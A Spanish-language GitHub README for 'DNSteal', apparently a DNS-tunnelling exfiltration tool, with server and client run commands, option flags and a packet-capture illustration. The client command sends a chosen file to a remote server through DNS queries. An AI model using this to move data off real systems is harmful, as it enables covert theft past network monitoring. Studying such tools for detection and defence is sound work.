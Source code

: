 # DNSteal

## Uso

#### :computer: Ejecutar el programa

* **Server**

```bash
python3 DNS_Server.py
```

<img src="/media/Server.png" width="300" title="use example">

* **Client**

```bash
python3 DNS_Client.py -s Server_IP -f File
```

<img src="./media/Client.png" width="300" title="use example">

### :triangular_flag_on_post: Flags del Programa

* **Server**

```bash
-s / --server: [Opcional] IP que quieras para el servidor. Predet = 0.0.0.0
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
-i / --ip: [Opcional] IP de respuesta falsa. Predet = 127.0.0.1
-p / --port: [Opcional] Puerto que desea utilizar. Predet = 53
```
* **Client**

```bash
-s / --server: [Requerido] IP a la que desea conectarse
-f / --file: [Requerido] Archivo que contiene el mensaje
-t / --time: [Opcional] Tiempo que las solicitudes esperan una respuesta del servidor. Predet = 5
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
```

### :movie_camera: Demostración de Uso

https://user-images.githubusercontent.com/35707527/210063728-522d5e92-1198-4cfb-9cf6-34a1e27cd88e.mp4

### :mailbox_with_mail: Paquetes de Wireshark

<img src="./media/Packet_Wireshark.png" width="1000" title="use example">
